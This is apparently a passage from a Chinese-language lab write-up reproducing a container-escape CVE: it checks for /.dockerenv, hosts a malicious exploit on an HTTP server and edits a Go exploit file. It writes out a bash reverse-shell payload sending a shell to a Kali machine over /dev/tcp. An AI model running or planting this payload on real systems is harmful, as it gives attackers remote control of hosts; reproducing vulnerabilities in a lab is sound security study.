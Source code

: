 ```
当我们控制了一台机器，可以通过该命令确认是不是容器,如果没有这个文件肯定不是容器，容器一定会有这个文件。
ls /.dockerenv
```

![image-20241129175504713](CVE漏洞复现/image-20241129175504713.png)	

```
准备好一个http服务器，用于提供恶意exp文件。
首先安装git
yum install git
然后把exp先下载下来。
```

![image-20241129164042602](CVE漏洞复现/image-20241129164042602.png)	

```
编写这个恶意的go文件。
```

![image-20241129164127721](CVE漏洞复现/image-20241129164127721.png)	

```
找到payload的关键字，并替换成以下语句，用于反弹shell到kali机器上。
var payload = "#!/bin/bash \n bash -i >& /dev/tcp/192.168.15.128/7777 0>&1" + shellCmd
```

![image-20241129164347717](CVE漏洞复现/image-20241129164347717.png)	
